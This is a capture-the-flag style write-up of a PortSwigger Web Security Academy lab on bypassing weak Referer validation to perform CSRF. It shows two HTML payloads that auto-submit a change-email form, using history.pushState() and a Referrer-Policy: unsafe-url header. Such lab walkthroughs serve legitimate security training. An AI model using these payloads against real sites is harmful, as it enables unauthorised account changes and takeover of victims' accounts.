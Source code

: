 
### CSRF with broken Referer validation : PRACTITIONER

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials.

![](./screenshots/lab1-1.png)

> We see this page.

![](./screenshots/lab1-2.png)

> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab11-1.png)


> We can try CSRF here because there is a relevant action, users tracked using session cookies, and there are no unidentifiable parameters.
> Crafting a payload.

```HTML
<html> 
	<body> 
		<form action="https://0a4b009a03bccf1680fe7b9e00d30003.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Adding it to the exploit server, storing it, and then viewing it.

![](./screenshots/lab11-2.png)

> We see that the Referer header is being used.
> We can try to circumvent this header by bypassing the checks done on the contents of this header.

> The checks might be that it simply checks if the required domain is found inside the header.
> In that case, we can add our attacking domain, and then append the required domain of the lab to bypass this check.

> To do that, the payload must be stored in the exploit server.
> Then, take the `POST` request to `/change-email` from HTTP history, and add the domain of the lab itself, the host of the request, as a query parameter 

![](./screenshots/lab12-2.png)

> Sending this request, we see that the email was changed to the one we added.
> Therefore, we now know that the referer header can be bypassed by simply appending the lab url to include the required domain.

> To do that automatically with our CSRF attack, we add the `history.pushState()` JS function in our script.
> What this does is that it adds a new entry to the browser session's history. It changes the URL without changing the page contents.
> We can use that to first load the required lab domain, and then initiate the POST request to launch the CSRF attack.

```HTMl
<html> 
	<body> 
		<script> history.pushState("", "", "/?0a4b009a03bccf1680fe7b9e00d30003.web-security-academy.net") </script>
		<form action="https://0a4b009a03bccf1680fe7b9e00d30003.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="NEWER@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Storing it in the exploit server, and then viewing it.
> We still get the same error.

![](./screenshots/lab11-2.png)

> This is because the `history.pushState()` function alters the `referer` header by adding query parameters. For security reasons, the `?` is stripped by default from the `referer` headers.
> To bypass this, we add the `Referrer-Policy: unsafe-url` header.
> To do that, we add it in the `Head` section of the exploits server.

![](./screenshots/lab12-3.png)

> Storing and delivering to victim completes the lab.

---

